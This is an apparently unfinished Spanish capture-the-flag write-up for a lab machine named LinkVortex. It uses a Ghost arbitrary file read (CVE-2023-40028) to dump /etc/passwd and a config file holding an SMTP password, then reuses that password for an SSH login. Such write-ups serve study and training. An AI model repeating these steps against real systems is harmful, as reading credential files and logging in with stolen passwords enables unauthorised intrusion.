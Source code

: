 Template

---

## Nmap Summary
| Port | Software    | Version                                 | Status  |
| ---- | ----------- | --------------------------------------- | ------- |
| 53   | domain      | Simple DNS                              | open    |
| 80   | http        | Apache http 2.4.29                      | open    |
| 139  | netbios-sec | Microsfot Windows netbios-ssn           | open    |
| 389  | ldap        | Microsoft Windows Active Directory LDAP | open    |


## Information Recon

Ports tcp open in nmap format

```bash

```

Ports services and versions nmap format

```bash

```

Ports UDP nmap format

```bash

```

---

## Enumeration

# FFuzz y FeroxBuster


# Arbitrary File Read (CVE-2023-40028)
- Con el Arbitrary read file vemos el /etc/passwd
```java
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
file> 

```
Vemos que el usuario node existe en el sistema y tiene una bash shell;

Tambien sacamos el archivo  `/var/lib/ghost/config.production.json` que venia en el Dockerfile que sacamos de dev.linkvortex.htb

```bash
       │ File: Dockerfile.ghost
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ FROM ghost:5.58.0
   2   │ 
   3   │ # Copy the config
   4   │ COPY config.production.json /var/lib/ghost/config.production.json
   5   │ 
   6   │ # Prevent installing packages
   7   │ RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/
       │ dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb
   8   │ 
   9   │ # Wait for the db to be ready first
  10   │ COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
  11   │ COPY entry.sh /entry.sh
  12   │ RUN chmod +x /var/lib/ghost/wait-for-it.sh
  13   │ RUN chmod +x /entry.sh
  14   │ 
  15   │ ENTRYPOINT ["/entry.sh"]
  16   │ CMD ["node", "current/index.js"]

```

config.production.json
Sacamos un nuevo correo y una direccion de puerto local donde se esta ejecutando un servicio , probablemente ghost:
```bash
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}

```
Tenemos el usuario bob y su password 

bob@linkvortex.htb:fibber-talented-worth

Probamos ssh:
```bash
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Dec  3 11:41:50 2024 from 10.10.14.62
bob@linkvortex:~$ whoami
bob

```





---

